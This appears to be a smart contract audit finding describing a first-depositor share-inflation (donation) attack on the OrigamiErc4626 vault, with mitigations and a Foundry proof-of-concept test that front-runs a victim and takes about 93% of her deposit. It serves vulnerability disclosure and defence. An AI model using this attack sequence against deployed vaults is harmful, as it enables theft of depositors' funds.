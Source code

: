 # An attacker can front run the first depositor to inflate the share price, stealing almost all deposited value by the victim

Donation attacks are fairly common knowledge in the context of smart contract security. Even so that Openzeppelin's implementation of ERC4626 has a built in mechanism for that. In all the conversions from assets->shares and vice-versa, the calculation is done in the following way:


```solidity
    function _convertToShares(uint256 assets, Math.Rounding rounding) internal view virtual returns (uint256) {
        return assets.mulDiv(totalSupply() + 10 ** _decimalsOffset(), totalAssets() + 1, rounding);
    }

    function _convertToAssets(uint256 shares, Math.Rounding rounding) internal view virtual returns (uint256) {
        return shares.mulDiv(totalAssets() + 1, totalSupply() + 10 ** _decimalsOffset(), rounding);
    }
```

Even when the value of `_decimalsOffset()` is set to 0 (which is the default value), adding `+1` in both numerator and denominator makes the attack inprofitable. Even though the shares _can_ be inflated, the inflated value is not accessible by the attacker and is effectively lost. So there is a very high risk for the attacker, and therefore the likelyhood of the attack is very low.

However, `OrigamiErc4626` has a small modification in those two critical functions that bypass this protection mechanism in an special scenario: when `_totalSupply==0`.

```solidity
    function _convertToShares(uint256 assets, OrigamiMath.Rounding rounding) internal view virtual returns (uint256) {
        uint256 _totalSupply = totalSupply();
        // @audit-issue this special case of _totalSupply==0 bypasses the actual shares-inflation attack protection ... ?
        return _totalSupply == 0
            ? assets.scaleUp(_assetsToSharesScalar)
            : assets.mulDiv(_totalSupply + DECIMALS_OFFSET_SCALAR, totalAssets() + 1, rounding);
    }

    function _convertToAssets(uint256 shares, OrigamiMath.Rounding rounding) internal view virtual returns (uint256) {
        uint256 _totalSupply = totalSupply();
        return _totalSupply == 0
            ? shares.scaleDown(_assetsToSharesScalar, rounding)
            : shares.mulDiv(totalAssets() + 1, _totalSupply + DECIMALS_OFFSET_SCALAR, rounding);
    }
```

## Impact: medium/high

Once the vault is deployed, an attacker can frontrun the first honest depositor, and steal the full deposit of the victim. The attack can be repeated for multiple multiple "first" depositors. 

Pre-conditions for the attack:
- `OrigamiErc4626` is deployed
- There are no default deposits made by the deployer because the attacker must be the first depositor 


### Risk classification

This issue has been classified as **high-risk** issue several times in the past:
- https://solodit.xyz/issues/h-02-first-depositor-can-break-minting-of-shares-code4rena-prepo-prepo-contest-git
- https://solodit.xyz/issues/h-03-stakedcitadel-depositors-can-be-attacked-by-the-first-depositor-with-depressing-of-vault-token-denomination-code4rena-badgerdao-badger-citadel-contest-git
- https://solodit.xyz/issues/m-10-new-galcx-token-denomination-can-be-depressed-by-the-first-depositor-code4rena-alchemix-alchemix-contest-git


However, I believe this classification is only valid in systems when the pool is deployed multiple times with a factory or similar. In this case, where the contract is deployed only once, the issue could be considered as **medium-risk** severity. 

However, the amount of assets that are at risk of this attack is not negligible. 

## Attack description

When no deposits have been made yet, and the first honest depositor initiates his transaction, 
the attacker front runs the honest deposit with:
- a deposit of a little amount (see PoC)
- a donation of `asset` to the contract

Then the hones deposit tx goes through, where assets are deposited, but no shares are minted. The depositor has lost his assets to the vault already. 

The second part of the attack is about getting the assets out of the vault. The attacker has to:
- Redeem his shares so that the `totalSupply == 0`, even though there are assets in the contract
- Make a new deposit (of a normal size), getting some shares minted to him
- Redeem those recently minted shares, which correspond to the majority of the assets in the vault (up to 98% in the proof of concept).

### Mitigation

1. Do not bypass the inflation-protection mechanism, even when `totalSupply==0`. 
2. Require a minimum deposit amount.
3. Revert if minted shares are 0 (to protect `alice`). I think this should be in place no matter what other mitigations are implemented.
4. Mint a small amount of shares to a dead address at deployment ($1 worth should be enough)

We can discuss further options. 

### Proof of code

The following proof of code proves that an `attacker` can frontrun `alice` and end up stealing almost all her deposit. 

To run it, add it to `test/foundry/unit/common/erc4626/OrigamiErc4626.t.sol::OrigamiErc4626TestPermit.t.sol`. 

```solidity

contract OrigamiErc4626TestAttacks is OrigamiErc4626TestBase {

    function test_erc4626_donationAttack() public {

        // declarations
        address attacker = makeAddr("atacker");
        uint256 initialAttackerAssets = 15_000e18;
        
        // preparations & context
        deal(address(asset), alice, 5000e18);
        deal(address(asset), attacker, initialAttackerAssets);
        assertEq(vault.balanceOf(alice), 0);

        vm.prank(alice);
        asset.approve(address(vault), type(uint256).max);
        vm.prank(attacker);
        asset.approve(address(vault), type(uint256).max);

        // the attack beings. The attacker must be the first depositor of the vault, 
        // so he must front-run the first depositor (alice)  
        vm.prank(attacker);
        vault.deposit(3, attacker);
        // the first deposit gets scaled by 1, but some rounding-down cause the actual shares to be 1 less
        // the current share price after the first deposit is 2share=3assets 
        assertEq(vault.totalSupply(), 2);
        assertEq(vault.totalAssets(), 3);
        assertEq(vault.convertToShares(3), 2);

        // right after the deposit, the attacker makes a big donation of `asset` 
        // to inflate the share price
        vm.prank(attacker);
        asset.transfer(address(vault), 10_000e18);
        // Even though the price of 1 share should be inflated to around 5k (~10k assets for 2 shares), 
        // the inflation-protection mechanism and rounding directions makes it only 3333k
        assertEq(vault.convertToAssets(1), 3333_333333333333333334);
        // attacker still rightfully owns all shares in the vault
        assertEq(vault.totalSupply(), 2);
        assertEq(vault.balanceOf(attacker), vault.totalSupply());

        // An honest depositor deposits some amount of assets
        // The donation from the attacker should leave the share price just above 
        // the amount deposited by the honest depositor (3000 deposited < 3333 share price)
        // Alice receives then 0 shares, and the attacker still owns 100% of the totalSupply
        vm.prank(alice);
        vault.deposit(3000e18, alice);
        assertEq(vault.balanceOf(alice), 0);
        assertEq(vault.balanceOf(attacker), vault.totalSupply());

        // Thanks to the inflation-attack-protection inside convertToAssets(), 
        // even though the attacker owns 100% of the shares, 
        // only a portion of them can be withdrawn. The attacker is currently at a loss.
        assertEq(vault.maxWithdraw(attacker), 4333_333333333333333334);

        // However, the inflation-attack-protection is bypassed
        // when the totalSupply is back to 0, and the attacker owns the totalSupply.
        // Therefore he can redeem all the shares, leaving totalSupply=0 
        vm.startPrank(attacker);
        vault.redeem(vault.maxRedeem(attacker), attacker, attacker);
        assertEq(vault.totalSupply(), 0);
        assertEq(vault.balanceOf(attacker), 0);
        // Now that totalSupply==0, the attacker will get the same
        // number of shares as the assets deposited (except for the rounding-down)
        // All it takes to own again all assets is to make a new deposit (non-negligible deposit)
        vault.deposit(1000e18, attacker);

        // Now the attacker can withdraw almost the full balance from the vault (98% of the assets)
        assertEq(vault.totalSupply(), vault.balanceOf(attacker));
        assertApproxEqRel(vault.maxWithdraw(attacker), asset.balanceOf(address(vault)), 0.02e18);  // 2% error allowed

        // When the attacker redeems his shares, he has profited from alice
        vault.redeem(vault.maxRedeem(attacker), attacker, attacker);
        assertGt(asset.balanceOf(attacker), initialAttackerAssets);
        // to be more precise, he has now his initial supply, plus 2806, which is 93.3 % of alice assets
        assertEq(asset.balanceOf(attacker), initialAttackerAssets + 2806_666666666666666658);

        vm.stopPrank();
    }
}
```

